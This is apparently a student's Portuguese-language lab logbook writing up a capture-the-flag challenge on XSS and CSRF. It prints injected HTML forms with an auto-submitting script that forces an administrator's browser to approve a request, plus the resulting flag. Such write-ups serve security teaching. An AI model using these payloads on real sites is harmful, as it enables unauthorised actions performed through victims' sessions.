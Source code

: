 # LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. </p>
![Alt text](uploads/logbook6P1.png)
<p>
Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não. </p>
![Alt text](uploads/logbook6P2.png)
![Alt text](uploads/logbook6P3.png)
<p>Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
<!-- Este script procura um elemento com ID = fake_id e submete esse formulário -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{a03da844bb383e699a2c1a32c5d4a0d6}.</p>
![Alt text](uploads/logbook6P4.png)
![Alt text](uploads/logbook6P5.png)
![Alt text](uploads/logbook6P6.png)

<p> 
Considerando que de facto o método explicado anteriormente não é assim tão simples de executar, resolvemos alterar o input de forma a que uma nova página fosse aberta com a flag. Para isso, alteramos o 'script' que enviamos para o seguinte:
</p>
</div>

```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form" target="blank">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script> 
```
<p> Como se pode perceber, a unica alteração que foi feita foi a adição do atributo 'target="blank"' no 'form' que foi colocado no input. Este atributo faz com que o formulário seja submetido numa nova página, o que permite que a flag seja mostrada. </p>
